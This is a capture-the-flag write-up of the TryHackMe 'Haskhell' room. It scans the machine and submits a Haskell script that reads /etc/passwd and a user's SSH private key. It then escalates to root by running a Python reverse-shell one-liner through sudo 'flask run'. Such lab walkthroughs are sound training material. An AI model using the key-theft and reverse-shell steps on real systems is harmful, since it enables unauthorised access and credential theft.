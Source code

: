 ```yaml
---
layout: post
title: Haskhell writeup
date: 2020-08-04 04:00:00 +5:30
description: The Following Post is writeup of Haskell of tryhackme # Add post description (optional)
categories: [TryHackMe, Medium]
tags: [tryhackme, ctf, flask, haskell] # add tag
---
```


## Description:

The Following Post is writeup of Haskhell room of tryhackme <https://tryhackme.com/room/haskhell>

|Machine|Details
|:---|:--
|OS | linux
|Rating | Medium
|Creator | sgtscout
|Tech |Haskell and Flask

## Summary:

  The machine have a webpage at port 5001 you will see a message from your prof about uploading assignment
  We made a Simple Haskell script for reading file(I am not good in Haskell). We got lucky about the permissions
  and get id_rsa printed. Login as user then for privesc we have sudo permissions to run flask app and we run python
  reverse shell as flask app.


## Walkthrough:

### Enumeration

Lets start with nmap scan
```terminal
nmap -sC -sV <ip>
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.91 seconds
```
We can see server at port 5001

let's dirbust it
```terminal
┌─[✗]─[silver@parrot]─[~]
└──╼ $gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.30.179:5001
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.30.179:5001
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/04 00:56:40 Starting gobuster
===============================================================
/submit (Status: 200)
===============================================================
2020/08/04 01:01:57 Finished
===============================================================
```

we got a submit dir let's see what we can submit
We need to make a haskell script to see if we can get any output or not

```terminal
└──╼ $cat try.hs
main = do
 x <- readFile "/etc/passwd"
 putStr x
```

Now we know prof lets check out .ssh key
So we changed the readfile to /home/prof/.ssh/id_rsa

we got key hurray crack using john
```terminal
└──╼ $/usr/share/john/ssh2john.py id_rsa > crack.hash
id_rsa has no password!


prof@haskhell:~$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run

Now we know flask run python let's try with python rev shell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    $ export FLASK_APP=hello.py
    $ export FLASK_DEBUG=1
    $ flask run

nc -lvnp 1234
```

Rooted
